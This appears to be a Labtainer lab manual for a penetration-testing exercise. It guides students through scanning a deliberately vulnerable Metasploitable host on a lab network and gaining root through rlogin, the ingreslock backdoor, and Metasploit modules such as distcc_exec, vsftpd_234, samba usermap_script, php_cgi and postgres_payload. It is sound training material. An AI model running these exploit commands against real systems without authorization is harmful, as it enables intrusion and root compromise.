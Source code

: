 ![](media/b80e0eacca6dad9d42b5dc3545946591.png)

Using Metasploit
=================================

Overview
========

This Labtainer exercise explores the use of the metasploit tool which is
installed on a Kali Linux system (attacker) and is meant to learn simple
penetration skills on a purposely vulnerable metasploitable host (victim).

Note: the attacker computer is configured to have IP address 192.168.1.3 while
the victim computer is 192.168.1.2

Lab Environment
===============

Once you have logged into your range account and accessed your Labtainer-VM,
open a terminal window.

Navigate to the “labtainer-student” directory and start the lab using the
command:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
>   labtainer metaploit
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-   The resulting virtual terminal is connected to the attacker computer.
-   Links to this lab manual will be displayed if you wish to view the prompt
    from within your VM


**Lab Tasks**

1. **Verify connectivity between attacker and victim**

A simple ping from the attacker system will be sufficient.
```
ping 192.168.1.2
```

2. **Get a list of vulnerable services on the victim**

An 'nmap' scan of the victim will be sufficient.
```

nmap -p0-65535 192.168.1.2
```

3. ** Walk-Thru for Vulnerably configured rlogin service (port 513)**

Remote login to the victim (with root privilege)
```

rlogin -l root 192.168.1.2

Display a 'root' file

cat /root/filetoview.txt
```

4. **Walk-Thru for Vulnerable ingreslock service (port 1524)**

Use telnet to access ingreslock service and obtain root privilege
```
telnet 192.168.1.2 1524
```

Display root file as above

5. **Walk-Thru for Vulnerable distccd service (port 3632)**

Start Metasploit console
```
sudo msfconsole
```

- Note you will see a warning about a missing database, you can ignore that.

Search for distccd exploit:
```
search distccd
```

Use the exploit:
```
use exploit/unix/misc/distcc_exec
```

View options related to exploit:
```
options
```

Set the 'RHOST' option:
```
set RHOST 192.168.1.2
```

Run the exploit:
```
exploit
```

Note: when the exploit has succeeded, no prompt is shown but a shell is created.

Display the root file as above.

6. **Your Turn! Exploit the Vulnerable IRC daemon (port 6667)**

Search for unreal_ircd exploit.

Use the exploit.

View and set options as necessary (RHOST option) run the exploit and display
root file.

7. **Exploit the Vulnerable VSFtpd service (port 21)**

Search for vsftpd_234.

Use the exploit.

View and set options as necessary (RHOST option), run the exploit and display
root file.

8. **Exploit the Vulnerable Samba service (port 139)**

Search for samba usermap_script.

Use the exploit.

View and set options as necessary (RHOST option), run the exploit and display
root file.

9. **Exploit the Vulnerable HTTP (php) service (port 80)**

Search for php_cgi.

Use the exploit.

View and set options as necessary (RHOST option) run the exploit.

Note: when the exploit is succeeded a 'meterpreter' prompt is shown.

From meterpreter prompt, drop to a shell:
```

shell
```

Display the root file.

10. **Expolit the Vulnerable Postgres service (port 5432)**

Search for postgres_payload.

Use the exploit.

View and set options as necessary (RHOST option).

run the exploit.

Note: when the exploit is succeeded a 'meterpreter' prompt is shown.

From meterpreter prompt, drop to a shell.

Display root file.

**Stop the Labtainer**

When the lab is completed, or you'd like to stop working for a while, run
```
stoplab
```

from the host Labtainer working directory. You can always restart the

Labtainer to continue your work. 

